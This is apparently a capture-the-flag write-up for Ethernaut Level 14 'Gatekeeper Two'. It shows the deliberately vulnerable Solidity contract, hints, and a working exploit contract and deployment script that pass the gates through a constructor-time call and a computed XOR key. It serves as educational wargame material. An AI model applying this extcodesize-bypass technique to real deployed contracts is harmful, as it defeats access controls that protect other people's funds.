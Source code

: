 # Level 14 - Gatekeeper 2 ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/14" %}

### Level Setup

{% hint style="info" %}
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

**Things that might help:**

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperTwo.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-14

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-14

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/7851977141ce27a4cb0f3eda16209208b7a1c779/src/Level14.sol" %}

{% code title="src/Level14.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                    LEVEL 14 - GATEKEEPER TWO                 │
// ================================================================
contract GatekeeperTwoMiddleman {
    constructor(address targetContract) {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        (bool success,) = address(targetContract).call(abi.encodeWithSignature("enter(bytes8)", key));
        require(success);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/7851977141ce27a4cb0f3eda16209208b7a1c779/script/Level14.s.sol" %}

{% code title="script/Level14.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {GatekeeperTwoMiddleman} from "../src/Level14.sol";

// ================================================================
// │                    LEVEL 14 - GATEKEEPER TWO                 │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new GatekeeperTwoMiddleman(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).
{% endhint %}
